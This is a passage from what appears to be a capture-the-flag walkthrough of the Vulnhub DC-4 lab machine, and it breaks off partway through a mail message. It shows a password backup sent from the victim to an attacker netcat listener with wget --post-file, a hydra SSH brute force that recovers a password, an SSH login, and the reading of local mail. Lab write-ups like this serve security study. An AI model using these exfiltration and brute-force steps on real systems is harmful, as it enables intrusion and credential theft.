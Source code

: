 ```
# Victim
$ wget --post-file=old-passwords.bak 10.10.10.6:8081

# Attacker
root@kali:~/Security/Vulnhub/DC-Series/4# nc -nlvp 8081 > file_with_nc_stuff
listening on [any] 8081 ...
connect to [10.10.10.6] from (UNKNOWN) [10.10.10.9] 54758

root@kali:~/Security/Vulnhub/DC-Series/4# tail -n +10 file_with_nc_stuff > old-passwords.bak
```
Here we can use metasploit `scanner/ssh/ssh_login`, but I decided to use `hydra`'s SSH option.
```
root@kali:~/Security/Vulnhub/DC-Series/4# hydra -l jim -P old-passwords.bak 10.10.10.9 ssh
...
[22][ssh] host: 10.10.10.9   login: jim   password: jibril04
...
root@kali:~/Security/Vulnhub/DC-Series/4# ssh jim@10.10.10.9
...
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$
```
We have mail! First let's check our home directory's `mbox` file which we now have permission to read:
```
From root@dc-4 Sat Apr 06 20:20:04 2019
Return-path: <root@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 20:20:04 +1000
Received: from root by dc-4 with local (Exim 4.89)
	(envelope-from <root@dc-4>)
	id 1hCiQe-0000gc-EC
	for jim@dc-4; Sat, 06 Apr 2019 20:20:04 +1000
To: jim@dc-4
Subject: Test
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCiQe-0000gc-EC@dc-4>
From: root <root@dc-4>
Date: Sat, 06 Apr 2019 20:20:04 +1000
Status: RO

This is a test.
```
We can read our mail in /var/mail/jim or we can use the `mail` command:
```
jim@dc-4:/var/mail$ mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/jim": 1 message 1 unread
>U  1 charles@dc-4       Sat Apr 06 21:15   27/715   Holidays
& more

Message 1:
From charles@dc-4 Sat Apr 06 21:15:46 2019
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
```